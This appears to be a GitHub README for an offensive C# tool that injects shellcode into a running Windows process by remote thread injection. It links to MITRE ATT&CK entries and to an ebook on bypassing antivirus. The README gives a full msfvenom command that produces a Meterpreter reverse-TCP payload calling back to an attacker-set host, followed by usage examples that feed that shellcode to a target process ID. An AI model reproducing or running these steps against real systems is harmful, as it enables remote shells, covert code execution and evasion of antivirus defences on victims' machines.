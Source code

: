 # NativePayload_TId
Remote Thread Injection by C# Delegate
-----------------------
Related Links for "Mitre ATT&CK" : 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_TId.exe [TPID] [PAYLOAD]

    Code2: NativePayload_TIdnt.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_TId.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_TIdnt.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://damonmohammadbagher.github.io/Posts/11Feb2021x.html

Article [2]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part2)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part2.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------

![](https://github.com/DamonMohammadbagher/NativePayload_TId/blob/main/NativePayload_TIdnt.jpeg)



